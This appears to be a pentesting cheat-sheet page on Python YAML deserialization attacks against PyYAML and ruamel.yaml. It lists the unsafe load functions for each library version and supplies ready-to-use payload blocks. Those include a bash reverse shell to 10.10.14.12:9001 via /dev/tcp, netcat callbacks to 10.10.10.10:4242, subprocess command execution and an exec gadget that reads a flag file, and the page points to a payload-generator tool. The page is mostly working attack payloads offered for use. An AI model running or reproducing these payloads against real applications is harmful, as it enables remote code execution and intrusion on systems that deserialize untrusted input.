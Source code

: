 # Python Deserialization

## Theory

Python's built-in serialization modules, such as pickle and cPickle, PyYaml, are commonly used for serializing and deserializing data. However, if the deserialization process is not properly secured, it can be exploited by attackers to execute arbitrary code or perform other malicious activities.

## Practice

### PyYaml Deserialization

{% tabs %}
{% tab title="Enumerate" %}
Since **PyYaml** version **5.4**, the default loader for `load` has been switched to `SafeLoader` mitigating the risks against Remote Code Execution.&#x20;

The vulnerable sinks are now:

```python
import yaml
from yaml import Loader, UnsafeLoader
data = b'!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]'

yaml.load(data, Loader=UnsafeLoader)
yaml.load(data, Loader=Loader)
yaml.unsafe_load(data)
```

On PyYaml versions **>= 5.1  (and inferior to 5.4)** we can use following functions

```python
import yaml
from yaml import Loader, UnsafeLoader, FullLoader
data = b'!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]'

yaml.load(data) #works under certain conditions
yaml.load(data, Loader=Loader)
yaml.load(data, Loader=UnsafeLoader)
yaml.load(data, Loader=FullLoader)
yaml.load_all(data) #works under certain conditions
yaml.load_all(data, Loader=Loader)
yaml.load_all(data, Loader=UnsafeLoader)
yaml.load_all(data, Loader=FullLoader)
yaml.full_load(data)
yaml.full_load_all(data)
yaml.unsafe_load(data)
yaml.unsafe_load_all(data)
```

{% hint style="info" %}
In order for `load()` and `load_all()` to deserialize custom class objects, subprocess have to be imported if we use Popen in our payload. Serialized object of os.system won't works.

You can still use `!!python/object/new:str` payload.
{% endhint %}

On PyYaml versions **inferior to 5.1** we can use following functions

```python
import yaml
from yaml import Loader, UnsafeLoader, FullLoader
data = b'!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]'

yaml.load(data)
yaml.load(data, Loader=Loader)
yaml.load_all(data)
yaml.load_all(data, Loader=Loader)
```
{% endtab %}

{% tab title="Payloads" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here are example of some payloads:

```bash
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]

!!python/object/apply:subprocess.Popen
- ls

!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cmd.exe
  - /c
  - dir
  
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```
{% endtab %}

{% tab title="Tools" %}
The tool [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate payloads. It create **serialized payload** for deserialization RCE attack on python driven applications where pickle ,**pyYAML**, **ruamel.yaml** or **jsonpickle** module is used for deserialization of serialized data.

```bash
python3 peas.py
```
{% endtab %}
{% endtabs %}

## **Ruamel.yaml** Deserialization

{% tabs %}
{% tab title="Enumerate" %}
To deserialize in **ruamel.yaml** , following methods are vulnerable to arbitrary code execution:

```python
import ruamel.yaml
data = b"""!!python/object/apply:subprocess.Popen
- ls"""

ruamel.yaml.load(data)
ruamel.yaml.load(data, Loader=ruamel.yaml.Loader)
ruamel.yaml.load(data, Loader=ruamel.yaml.UnsafeLoader)
ruamel.yaml.load(data, Loader=ruamel.yaml.FullLoader)
ruamel.yaml.load_all(data)
ruamel.yaml.load_all(data, Loader=ruamel.yaml.Loader)
ruamel.yaml.load_all(data, Loader=ruamel.yaml.UnSafeLoader)
ruamel.yaml.load_all(data, Loader=ruamel.yaml.FullLoader)

```
{% endtab %}

{% tab title="Payloads" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here are example of some payloads:

```bash
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]

!!python/object/apply:subprocess.Popen
- ls

!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cmd.exe
  - /c
  - dir
  
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```
{% endtab %}

{% tab title="Tools" %}
The tool [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate payloads. It create **serialized payload** for deserialization RCE attack on python driven applications where pickle ,**pyYAML**, **ruamel.yaml** or **jsonpickle** module is used for deserialization of serialized data.

```
python3 peas.py
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/Python/" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}
